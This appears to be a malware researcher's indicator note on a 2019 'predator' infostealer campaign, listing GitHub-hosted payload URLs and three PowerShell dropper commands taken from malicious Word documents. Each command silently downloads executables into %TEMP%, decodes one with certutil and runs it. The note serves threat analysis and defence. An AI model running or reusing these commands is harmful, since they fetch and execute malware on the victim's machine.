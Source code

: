 # 2019-11-21-predator

URLs
=====
https://raw.githubusercontent.com/jocofid282/tewsa/master/blow.exe
https://raw.githubusercontent.com/jocofid282/tewsa/master/dera
https://raw.githubusercontent.com/jocofid282/tewsa/master/JvlpB.exe

PoSH code from word doc (from the sample that I have, the code is all the same even though there are different hashes)
======================================================================================================================
cmd /c powershell -windowstyle hidden -command Import-Module BitsTransfer; Start-BitsTransfer -Source https://raw.githubusercontent.com/jocofid282/tewsa/master/blow.exe,https://raw.githubusercontent.com/jocofid282/tewsa/master/dera,https://raw.githubusercontent.com/jocofid282/tewsa/master/JvlpB.exe -Destination \"$env:TEMP\blow.exe\",\"$env:TEMP\dera\",\"$env:TEMP\JvlpB.exe\" &  certutil -decode %temp%\dera %temp%\dera.exe & powershell -windowstyle hidden -command Set-Location -Path \"$env:TEMP\"; Start-Process blow.exe -ArgumentList dera.exe

powershell -windowstyle hidden -command Import-Module BitsTransfer; Start-BitsTransfer -Source https://raw.githubusercontent.com/milliken1broderick/43fer/master/Masksim.exe -Destination \"$env:TEMP\cviak.exe\"; Start-Process -FilePath \"$env:TEMP\cviak.exe\"

cmd /c powershell -windowstyle hidden -command Import-Module BitsTransfer; Start-BitsTransfer -Source https://raw.githubusercontent.com/milliken1broderick/43fer/master/blow.exe,https://raw.githubusercontent.com/milliken1broderick/43fer/master/dera,https://raw.githubusercontent.com/milliken1broderick/43fer/master/JvlpB.exe -Destination \"$env:TEMP\blow.exe\",\"$env:TEMP\dera\",\"$env:TEMP\JvlpB.exe\" &  certutil -decode %temp%\dera %temp%\dera.exe & powershell -windowstyle hidden -command Set-Location -Path \"$env:TEMP\"; Start-Process blow.exe -ArgumentList dera.exe
